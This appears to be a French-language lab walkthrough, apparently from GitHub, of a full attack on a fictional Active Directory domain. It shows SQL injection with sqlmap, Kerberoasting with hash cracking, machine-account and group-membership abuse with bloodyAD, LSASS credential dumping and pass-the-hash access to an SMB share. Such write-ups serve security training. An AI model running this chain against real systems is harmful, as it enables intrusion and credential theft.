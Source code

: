 Dans cet exercice, il ne s'agit pas d'une véritable entreprise ni de vraies personnes. Tout ce qui est présenté ici a pour objectif d'être utilisé à des fins éducatives, afin de s'entraîner.


Tout d'abord, pour demader le vpn

sudo openvpn --config akil.ovpn

sudo route -n add -net 192.168.40.0/24 -interface utun3


Ensuite voici a quoi ressemble mon /etc/hosts

![Capture d’écran 2024-11-14 à 16 00 35](https://github.com/user-attachments/assets/09392315-4757-494f-98ab-cc74ef0e38c4)

À partir de là, on utilise sqlmap pour tester une injection SQL sur le site web interne. La commande suivante permet d'obtenir le schéma de la base de données :

sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --schema --batch

![Capture d’écran 2024-11-14 à 16 03 56](https://github.com/user-attachments/assets/35b4f2ff-e3df-47bf-9a11-eeb170d514d1)

Ensuite, on extrait le contenu de la table users, ce qui nous permet de récupérer le mot de passe d'Alice :

sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --dump -T users --batch

![Capture d’écran 2024-11-14 à 16 04 11](https://github.com/user-attachments/assets/69f89746-4eb2-400b-9b2c-95bbfe82187d)


Ainsi, le mot de passe d'Alice (p@ssword) est obtenu.

En poursuivant, nous réalisons un Kerberoasting pour récupérer les tickets Kerberos des comptes de service :

nxc ldap 192.168.40.127 -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --kerberoasting kerberoasting.txt

![Capture d’écran 2024-11-14 à 16 05 41](https://github.com/user-attachments/assets/18a9f071-ea3f-4912-8ce9-0898fb7fd9ff)

Le hash obtenu correspond à svc_srv. Nous allons donc essayer de cracker ce hash pour obtenir le mot de passe en clair.


Avec hashcat, on utilise le mode 13100 pour casser le hash :

hashcat -m 13100 -a 0 kerberoasting.txt passwords.txt 

![Capture d’écran 2024-11-14 à 16 06 30](https://github.com/user-attachments/assets/78dff516-e728-4e94-b740-ad684e7d4bea)


Il est également possible d’utiliser John The Ripper pour obtenir le mot de passe:

john --format=krb5tgs --wordlist=passwords.txt kerberoasting.txt

![Capture d’écran 2024-11-14 à 16 07 07](https://github.com/user-attachments/assets/5c67de6d-ce53-4c7e-8c75-ed773514a771)

Le mot de passe de svc_srv est donc trouvé : qwerty123.


Ensuite, on vérifie les permissions disponibles pour Alice sur le partage SMB :

nxc smb DC01.VULN.LAB -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --dns-server 192.168.40.127 --shares

![Capture d’écran 2024-11-14 à 16 07 49](https://github.com/user-attachments/assets/f41a0246-073b-4d76-9d7f-fdb8e5f12b27)

Bien qu'elle ait accès à certains partages, l'accès au dossier CurriculumVitae, qui nous intéresse, lui est refusé.


Pour contourner cette restriction, on utilise Alice pour créer un compte machine appelé akil :

bloodyAD -u Alice.mice -p 'p@ssword' -d vuln.lab --host vuln.lab --dc-ip 192.168.40.127 add computer akil 'Password!'

![Capture d’écran 2024-11-14 à 16 22 31](https://github.com/user-attachments/assets/0449e44f-cec3-4329-9dae-79f16989f45a)


Pour analyser et visualiser les permissions dans Active Directory, on utilise BloodHound avec Alice :

bloodhound-python -c All -u 'Alice.mice' -p 'p@ssword' -d vuln.lab -ns 192.168.40.127

curl -L https://ghst.ly/getbhce | sudo docker compose -f - up


Ensuite, on se connecte à l'interface BloodHound via "http://127.0.0.1:8080/ui/explore".

Les fichier .json générés seront mis dans l'onglet Administration de bloodHound.


Avec les privilèges de svc_srv, on ajoute le compte akil dans le groupe server_admins, ce qui lui octroie des droits administratifs sur les serveurs :

bloodyAD -u svc_srv -p 'qwerty123' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember server_admins 'akil$'

![Capture d’écran 2024-11-14 à 16 18 53](https://github.com/user-attachments/assets/130f4146-5860-4b89-9b8d-fee75317247d)


Nous vérifions ensuite qu’akil a bien les permissions nécessaires pour accéder aux informations d'un compte administrateur :

![Capture d’écran 2024-11-14 à 16 25 48](https://github.com/user-attachments/assets/ddbc54c1-8d21-472d-b924-f6a1cbb659f9)


Ensuite grace a cette commande on a pu avoir acces au mot de passe hasher de srv_neccus en utilisant lsassy:

 nxc smb SRV01.VULN.LAB -u 'akil$' -p 'Password!' -M lsassy
 
 ![Capture d’écran 2024-11-14 à 16 29 17](https://github.com/user-attachments/assets/387278f6-bb8d-4cc5-af39-159c391a525f)

Grâce à ce hash, on peut ajouter akil au groupe human_resources car, d’après BloodHound, svc_nessus, via le groupe administrative_groups, a la possibilité d’ajouter des membres dans human_resources :

<img width="1433" alt="Capture d’écran 2024-11-14 à 16 32 51" src="https://github.com/user-attachments/assets/5a76fe09-2541-4a3d-8312-3191dc30c77a">

bloodyAD -u svc_nessus -p ':e3cddc751fabf3eed53f904d85b1a0ba' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember "human_resources" 'akil$'

![Capture d’écran 2024-11-14 à 16 33 32](https://github.com/user-attachments/assets/f639e056-1639-497d-9524-839bd37389b3)


Finalement, on accède au partage CurriculumVitae en utilisant akil avec les droits nécessaires :

nxc smb DC01.VULN.LAB -u 'akil$' -p 'Password!' -d 'vuln.lab' --dns-server 192.168.40.127 --shares 

![Capture d’écran 2024-11-14 à 16 35 17](https://github.com/user-attachments/assets/3956ac70-d6a7-4178-8676-13dca51c6e89)

![Capture d’écran 2024-11-14 à 16 35 53](https://github.com/user-attachments/assets/ecca4a57-8a0c-43f9-beb8-e13a60674b57)


 

 









